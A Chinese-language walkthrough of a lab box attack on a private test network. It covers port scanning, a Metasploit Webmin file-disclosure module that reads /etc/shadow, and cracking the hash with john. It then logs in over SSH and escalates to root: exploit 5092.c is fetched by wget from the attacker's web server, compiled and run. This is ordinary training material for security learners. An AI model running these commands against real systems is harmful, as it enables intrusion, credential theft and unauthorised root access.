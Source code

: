 
# 环境
攻击机IP：192.168.1.10<br />目标机IP：192.168.1.18


# 实战

## 信息收集
使用NMAP扫描端口
```
nmap -Pn -sV 192.168.1.18
```
![image.png](_img\06-靶场实践/1657691710906-922dad79-f263-457f-a284-8f9ab9f3ab22.png)

可以看到开放了22-SSH、80-http、10000-http等端口

先看看80端口，浏览一番后发现并没有什么东西，基本上就是有关提示
![image.png](_img\06-靶场实践/1657691713945-ff4c4840-e0e1-469e-aaa2-d86bacfaeed6.png)

看一下10000端口，是一个登录界面，尝试了一下万能密码，无法绕过
![image.png](_img\06-靶场实践/1657691719098-12b345ab-10af-46a8-ab13-e49ec46c53d3.png)


## 漏洞发现
在上面的扫描中我们发现1000端口运行的是`Webmin`程序，看看该程序有没有什么已知漏洞
```
searchsploit Webmin 0.01
```
![image.png](_img\06-靶场实践/1657691723087-f7d5d30b-fbcc-4fbf-98d7-5699ce30b877.png)


## 漏洞利用
存在漏洞那么我们就尝试利用漏洞得到一些信息，打开MSF查找`webmin`
![image.png](_img\06-靶场实践/1657691729000-e31e2669-56a3-4601-b9cd-6009b753d180.png)

看到`auxiliary/admin/webmin/file_disclosure`模块与我们在上面所找出来的漏洞相似，加以利用
```
msf6 > use 1             --利用模块
msf6 auxiliary(admin/webmin/file_disclosure) > show options         --查看需要的设置
msf6 auxiliary(admin/webmin/file_disclosure) > set rhosts 192.168.1.18    --设置目标IP
msf6 auxiliary(admin/webmin/file_disclosure) > run              --启动模块
```
![image.png](_img\06-靶场实践/1657691734720-1631fa6d-fd53-4df2-b8a7-57042b14ecd7.png)

可以看到我们获取了目标系统的可用用户名，然后去获取密码
```
msf6 auxiliary(admin/webmin/file_disclosure) > set rpath /etc/shadow
msf6 auxiliary(admin/webmin/file_disclosure) > run
```
![image.png](_img\06-靶场实践/1657691740316-6063fae7-6af9-4260-963b-204246a3a3fc.png)

将得到的密码HASH复制到一个文档中并命名为pass，使用john破解，得到密码h4ckm3
```
john --wordlist=/usr/share/wordlists/rockyou.txt pass
```
![image.png](_img\06-靶场实践/1657691744723-73167d98-1e3e-4bd7-9034-2258c5d26883.png)

在前面的扫描中我们看到开放了22-SSH端口，尝试连接
```
ssh vmware@192.168.1.18
```
![image.png](_img\06-靶场实践/1657691748882-43511379-c1a6-488a-ad13-ef973a44c39d.png)


## 提权
根据目标机器系统版本在kali中找到对应利用文件
![image.png](_img\06-靶场实践/1657691753134-f547b25b-6702-4889-b623-310020d920e0.png)

将利用文件复制到`/var/www/html`下
```
root@kali-xmtx:~/桌面# cd /usr/share/exploitdb/exploits/linux/local/
root@kali-xmtx:/usr/share/exploitdb/exploits/linux/local# cp 5092.c /var/www/html/
root@kali-xmtx:/usr/share/exploitdb/exploits/linux/local# cd /var/www/html/
root@kali-xmtx:/var/www/html# ls
```
![image.png](_img\06-靶场实践/1657691758954-6ced02c4-70d8-461f-b98c-6a9dd5bc54ac.png)

启动apach服务
```
service apache2 start
```

在ssh中将5092.c下载到目标机
```
vmware@ubuntuvm:/$ cd /tmp
vmware@ubuntuvm:/tmp$ wget http://192.168.1.10/5092.c
vmware@ubuntuvm:/tmp$ ls
```
![image.png](_img\06-靶场实践/1657691763383-7293846d-4f44-447c-9585-2cf656eaf297.png)

编译5092.c并赋权限然后执行
```
vmware@ubuntuvm:/tmp$ gcc 5092.c -o shell
vmware@ubuntuvm:/tmp$ chmod 777 shell
vmware@ubuntuvm:/tmp$ ./shell
```
![image.png](_img\06-靶场实践/1657691768418-21869f78-fee3-4183-924e-4724d3a9ea7a.png)

成功得到root权限
![image.png](_img\06-靶场实践/1657691772850-3e7d57dd-120e-447b-9c46-a6935ccc7591.png)
